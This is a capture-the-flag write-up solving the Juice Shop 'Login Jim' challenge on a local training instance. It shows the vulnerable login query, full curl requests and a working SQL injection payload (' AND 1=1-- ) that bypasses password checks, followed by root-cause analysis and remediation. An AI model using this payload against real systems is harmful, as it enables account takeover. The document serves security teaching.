




# Login Jim

## Challenge Information

* **Category:** Injection
* **Challenge:** Login Jim
* **Difficulty:** 3
* **Goal:** Log in with Jim's user account.
* **Target:** `http://127.0.0.1:42000/rest/user/login`

---

## 1. Reconnaissance / Discovery

### 1.1 Identify the Login Endpoint

Because the objective is to authenticate as an existing user, the application's login functionality was investigated.

The authentication endpoint is:

```text
POST /rest/user/login
```

The endpoint accepts an email address and password as JSON parameters.

A baseline request was first performed using Jim's email with an intentionally incorrect password:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"jim@juice-sh.op","password":"wrongpassword"}'
```

The server returned:

```text
HTTP/1.1 401 Unauthorized
```

This established the normal authentication behavior before testing the application for injection.

---

### 1.2 Discover Jim's Account

Jim's account was located in the application's static user data:

```bash
grep -Rni -C 8 --include='*.yml' --include='*.yaml' "key: jim" \
  /var/lib/juice-shop/data
```

The relevant entry identified:

```text
email: jim
key: jim
role: customer
```

Juice Shop combines the local username with the configured application domain, resulting in:

```text
jim@juice-sh.op
```

The discovered password and security-question information were not used because the challenge clues indicate that the intended attack involves manipulating the login mechanism.

---

## 2. Attack Surface

The login endpoint accepts two attacker-controlled parameters:

```json
{
  "email": "jim@juice-sh.op",
  "password": "wrongpassword"
}
```

The `email` parameter was selected for injection testing because it is used to identify the account during authentication.

---

## 3. Source Code Analysis

The login implementation was inspected with:

```bash
grep -Rni -C 15 "loginJimChallenge" \
  /var/lib/juice-shop/routes \
  /var/lib/juice-shop/build \
  /var/lib/juice-shop/models 2>/dev/null | head -200
```

The login route contains the following SQL construction:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true }
)
```

The submitted email is directly interpolated into the SQL statement.

The challenge verification checks that the authenticated user is Jim:

```ts
challengeUtils.solveIf(challenges.loginJimChallenge, () => {
  return user.data.id === users.jim.id
})
```

Therefore, the attack must result in authentication as Jim rather than simply authenticating as an arbitrary account.



---

## 4. SQL Injection Validation

A single quote was appended to Jim's email to determine whether the input could alter the underlying SQL query:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"jim@juice-sh.op'\''","password":"wrongpassword"}'
```

The application returned:

```text
HTTP/1.1 500 Internal Server Error
```

The response also exposed a SQLite/Sequelize database stack trace.

This confirmed that the email parameter was being interpreted as part of the SQL statement rather than being safely treated as data.



---

## 5. Exploitation

A targeted boolean condition was then added to Jim's email parameter:

```text
jim@juice-sh.op' AND 1=1-- 
```

The complete request was:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"jim@juice-sh.op'\'' AND 1=1-- ","password":"wrongpassword"}'
```

The payload modifies the SQL logic as follows:

```text
' AND 1=1-- 
```

The quote closes the original email string.

`AND 1=1` introduces a condition that evaluates to true.

The `--` sequence comments out the remainder of the SQL statement, including the password comparison.

The application returned:

```text
HTTP/1.1 200 OK
```

and issued an authentication token despite the supplied password being intentionally incorrect.

The authentication token was redacted from the evidence to prevent exposing an active credential.



---

## 6. Challenge Verification

The challenge state was verified through the Juice Shop API:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="loginJimChallenge") | "\(.name) | solved=\(.solved)"'
```

The response was:

```text
Login Jim | solved=true
```

This confirms that the application recognized the authenticated account as Jim and marked the challenge as completed.



---

## 7. Security Impact

The vulnerable login implementation allows an attacker to manipulate the SQL query through the email parameter.

This can bypass the password verification step and provide unauthorized access to a targeted user account.

Depending on the privileges of the compromised account, the impact can include:

* Unauthorized account access
* Exposure of private information
* Unauthorized actions performed as the victim
* Account takeover
* Access to functionality associated with the compromised account

The severity increases if a privileged account can be targeted using the same vulnerability.

---

## 8. Root Cause

The root cause is SQL injection caused by directly concatenating user-controlled input into a SQL statement.

The vulnerable construction is:

```ts
`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' ...`
```

Because the submitted email is inserted directly into the query, an attacker can provide SQL syntax instead of ordinary email data.

This allows the attacker to change the logic of the authentication query.

---

## 9. Remediation

The application should use parameterized queries or Sequelize's safe query-building functionality.

User input should always be treated as data rather than executable SQL syntax.

Recommended protections include:

* Parameterized SQL queries
* ORM query methods where appropriate
* Server-side input validation
* Avoiding dynamically constructed SQL statements
* Rate limiting authentication attempts
* Monitoring repeated authentication failures and suspicious input
* Returning generic authentication errors to clients

---

## 10. Lessons Learned

The Login Jim challenge demonstrates a practical authentication-testing workflow:

```text
Identify authentication endpoint
        ↓
Identify target account
        ↓
Establish normal authentication behavior
        ↓
Inspect backend login implementation
        ↓
Test the input for SQL injection
        ↓
Confirm database error
        ↓
Construct a targeted injection
        ↓
Bypass password verification
        ↓
Verify the intended account was authenticated
```

An important lesson is that authentication testing should examine the backend query construction rather than focusing only on the login interface.

A password requirement does not protect an application if attacker-controlled input can modify the SQL query that performs authentication.

---

## 11. Conclusion

The **Login Jim** challenge was solved by identifying SQL injection in the login email parameter and using a targeted boolean-based injection to bypass the password condition.

The vulnerability was first confirmed through the SQLite/Sequelize error generated by an injected quote. A targeted `AND 1=1` payload then produced a successful authentication response despite the intentionally incorrect password.

Finally, the Juice Shop API confirmed:

```text
Login Jim | solved=true
```

This demonstrates how unsafe SQL query construction can result in complete authentication bypass against a targeted user account.
